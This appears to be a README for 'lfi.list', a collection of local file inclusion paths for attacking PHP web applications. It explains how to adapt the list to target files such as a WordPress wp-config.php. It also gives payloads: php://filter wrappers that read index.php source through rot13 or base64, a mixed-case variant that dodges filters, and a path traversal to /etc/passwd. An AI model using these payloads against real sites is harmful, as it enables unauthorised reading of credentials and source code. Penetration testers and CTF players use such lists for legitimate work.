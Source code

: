 # lfi.list
a big list of useful lfi paths


you might have to customise this list - for example if wordpress is located in /blog/ directory edit the top line of this file to /var/www/html/blog/wp-config.php

edit the file to include what file your searching for eg

grep resource /scripts/useful/lfi.list
      php://filter/read=string.rot13/resource=index.php
      php://filter/convert.base64-encode/resource=index.php
      pHp://FilTer/convert.base64-encode/resource=index.php
      php://filter/convert.base64-encode/resource=../../../../../etc/passwd

and possibly replace it with a resource you know, for example upload, if there is an /upload.php file

